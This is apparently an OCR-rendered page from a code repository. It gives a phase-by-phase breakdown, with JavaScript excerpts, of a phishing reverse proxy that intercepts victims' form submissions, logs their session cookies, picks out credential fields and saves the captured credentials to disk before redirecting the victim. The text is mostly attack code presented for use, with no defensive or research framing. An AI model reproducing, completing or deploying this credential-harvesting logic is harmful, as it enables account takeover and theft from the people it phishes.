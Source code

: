 ### **Detailed Process Breakdown**

#### **Phase 1: Data Detection & Capture**
```javascript
// 1. Enhanced data capture before redirect
await captureAllSessionData(currentSession, proxyRequestBody, proxyRequestOptions);

// 2. Capture current request data if not already captured
if (proxyRequestBody) {
    extractAndLogFormData(proxyRequestBody, currentSession, proxyRequestOptions.path);
    session.requestCount++;
}

// 3. Ensure all cookies are analyzed and logged
logAllCookies(currentSession);
```

#### **Phase 2: Session Analysis**
```javascript
// 4. Perform final credential analysis
if (session.lastFormData) {
    const credentialFields = {};
    const otherFields = {};
    
    for (const [key, value] of Object.entries(session.lastFormData)) {
        const keyLower = key.toLowerCase();
        if (config.credentials.credentialFields.some(field => keyLower.includes(field))) {
            credentialFields[key] = value;
        } else {
            otherFields[key] = value;
        }
    }
    
    if (Object.keys(credentialFields).length > 0) {
        session.credentialCount++;
        session.capturedCredentials.push({
            timestamp: new Date().toISOString(),
            path: proxyRequestOptions.path,
            credentialFields: credentialFields,
            allFields: session.lastFormData,
            source: 'final_capture'
        });
    }
}
```

#### **Phase 3: Data Persistence**
```javascript
// 5. Create comprehensive session summary
session.finalSummary = {
    timestamp: new Date().toISOString(),
    totalCookies: session.cookies.length,
    totalCredentials: session.capturedCredentials.length,
    totalRequests: session.requestCount,
    targetService: session.targetService,
    sessionDuration: Date.now() - new Date(session.createdAt).getTime(),
    dataCaptureComplete: true
};

// 6. Ensure all data is flushed to disk before redirect
await flushSessionData(currentSession);
```
